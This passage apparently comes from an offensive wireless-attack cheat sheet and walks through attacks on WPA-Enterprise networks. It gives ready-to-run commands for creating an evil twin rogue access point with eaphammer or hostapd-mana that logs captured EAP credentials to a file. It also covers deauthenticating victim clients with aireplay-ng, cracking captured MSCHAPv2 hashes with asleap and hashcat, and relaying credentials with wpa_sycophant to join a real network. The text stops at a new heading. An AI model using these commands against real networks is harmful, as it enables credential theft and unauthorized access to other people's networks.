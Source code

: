 Use **hostapd-mana**, **eaphammer**, or **berate_ap** to create a fake AP with the same SSID & EAP types.

```bash
# 1. Generate certificates
./eaphammer --cert-wizard

# 2. Launch rogue AP with EAP capturing:
./eaphammer -i wlan0 --channel <CHANNEL> --auth wpa-eap \
   --essid <MGT_ESSID> --creds
```

```bash
mana_wpe=1
mana_eapsuccess=1
mana_credout=/path/to/credentials.txt
```

(then `hostapd-mana /etc/hostapd-mana/myconfig.conf`)

**Deauthenticate** legit clients so they connect to the rogue AP:

```bash
aireplay-ng -0 10 -a <REAL_AP_BSSID> -c <VICTIM_CLIENT_MAC> wlan0mon
```
---
### EAP & MSCHAPv2 Cracking

When a client connects to your rogue AP using MSCHAPv2 (PEAP-MSCHAPv2, EAP-TTLS/MSCHAPv2), you capture the challenge/response:

```bash
asleap -C <CHALLENGE> -R <RESPONSE> -W <WORDLIST>
```
or
```bash
# Format for hashcat 5500
hashcat -m 5500 <EAP_MSCHAPv2_HASH> <WORDLIST>
```
---
### Relay Attacks (wpa_sycophant)

**wpa_sycophant** can relay MSCHAPv2 from a victim (connected to your rogue AP) to the real AP, effectively allowing you to join the real network **without** cracking the password.

1. **Create rogue AP** with `--wpa-sycophant` (in hostapd-mana or `berate_ap`).
2. **Run wpa_sycophant** with a config pointing to the real ESSID.
3. **Deauth** the target so it joins your rogue AP. Meanwhile, your wpa_sycophant tries connecting to the real AP with the victim’s credentials.
---
## 10. Rogue Access Points & Evil Twin

### Open Rogue AP
